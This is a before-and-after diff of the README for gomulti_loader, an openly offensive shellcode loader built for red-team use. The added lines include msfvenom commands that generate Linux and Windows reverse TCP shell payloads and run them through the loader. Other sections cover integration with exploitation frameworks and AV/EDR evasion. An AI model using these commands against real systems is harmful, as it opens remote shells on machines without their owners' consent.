

Before and after one commit to grisuno/gomulti_loader, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 89% size. GitHub-like rendering; badges without logos; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -65,5 +96,20 @@ Executes the shellcode by calling it as a function.
 ## Example Shellcode Included
 Two example payloads are embedded in the source:
 
-Linux (64-bit): Reverse TCP shell (connects to IP:port)
-Windows (64-bit): Reflective DLL injection / reverse meterpreter-style payload (via ws2_32.dll and cmd execution)
+## Linux
+- Linux (64-bit): Reverse TCP shell (connects to IP:port)
+
+```bash
+msfvenom -p linux/x64/shell_reverse_tcp LHOST={lhost} LPORT={lport} -f c -o shellcode_test.txt ; ./loader_linux -shellcode shellcode_test.txt
+```
+
+<img width="285" height="888" alt="image" src="https://github.com/user-attachments/assets/bac5a0bc-5996-4087-8eb8-1c82838140ef" />
+
+## Windows
+- Windows (64-bit): Reflective DLL injection / reverse meterpreter-style payload (via ws2_32.dll and cmd execution)
+
+```bash
+msfvenom -p windows/x64/shell_reverse_tcp LHOST={lhost} LPORT={lport} -f c -o shellcode_test.txt ; powershell .\loader_windows -shellcode shellcode_test.txt
+```
+
+
@@ -70,10 +119,25 @@ Windows (64-bit): Reflective DLL injection / reverse meterpreter-style payload (
 These are provided for testing and demonstration.
+
+# External Framework Integration
+## Relevant source files
+Purpose and Scope
+This document covers how gomulti_loader integrates with external exploitation frameworks and automation systems. The integration system allows external tools to automatically configure, build, and execute the shellcode loader with dynamically generated payloads. This capability enables gomulti_loader to function as a component within larger penetration testing suites and automated exploitation frameworks.
+
+For information about the core shellcode loading functionality, see Core Shellcode Loader System. For details about the build system that supports framework integration, see Build System.
+
+## Framework Integration Architecture
+The external framework integration system uses a YAML-based configuration approach that defines how external tools can interact with gomulti_loader. The integration supports parameter-driven payload generation and automated execution workflows.
+
+<img width="536" height="507" alt="image" src="https://github.com/user-attachments/assets/33cc0e47-d7b5-4f66-99c7-1e8f62e9d093" />
+
 
 ## Security Notes
 This program requires no external dependencies beyond standard system libraries.
 The use of mmap and VirtualAlloc with EXECUTE permissions may trigger AV/EDR detection.
 Shellcode must be properly encoded and null-free depending on delivery context.
+
 ## Author
+
 👤 grisuno
 Security Researcher & LazyOwn Red Team Developer
 
@@ -88,6 +152,14 @@ Use responsibly and in compliance with all applicable laws and regulations.
 
 **GPLV3**
 
+## Key License Terms
+The GPL v3 license provides the following fundamental freedoms as outlined in
+
+- Freedom to distribute copies of free software
+- Freedom to receive source code or obtain it on request
+- Freedom to change the software or use pieces in new programs
+- Freedom to know these rights are guaranteed
+
 ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
 
 [![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
````
Also changed, not shown: other parts of README.md (+34 -0 lines).
